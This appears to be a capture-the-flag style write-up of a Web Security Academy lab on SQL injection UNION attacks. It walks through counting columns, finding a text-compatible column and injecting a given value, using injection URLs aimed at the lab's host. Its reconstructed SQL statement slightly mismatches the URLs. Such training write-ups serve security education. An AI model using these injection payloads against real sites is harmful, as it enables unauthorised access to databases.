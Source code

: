 # Lab: SQL injection UNION attack, finding a column containing text
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Solution
As first we must determine how many columns the table has. So like in the last lab we union the columns with null:
```
https://0a4500130339e8668128989c003400f3.web-security-academy.net/filter?category=Gifts%27+union%20select+null,null,null+--+
```
In this query we have no error. This tells us, that we have three columns.

To determine the column with a strings type we replace the `NULL` with a random picked string:
```
https://0a4500130339e8668128989c003400f3.web-security-academy.net/filter?category=Gifts%27+union%20select+%27a%27,null,null+--+
```
This gives us again an 'Internal Server Error'.

```
https://0a4500130339e8668128989c003400f3.web-security-academy.net/filter?category=Gifts%27+union%20select+null,%27a%27,null+--+
```
This shows a correct response with our choosen column name. So the second column uses the string data type.

To solve this lab we have to show up a given random value on the website. For this we can just add the value to the found string column:
```
https://0a4500130339e8668128989c003400f3.web-security-academy.net/filter?category=Gifts%27+union%20select+null,%27iKjUzD%27,null%20--+
```

This will create the following SQL statement
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT NULL,'iKjUzD',NULL --
```

And the challenge is solved.
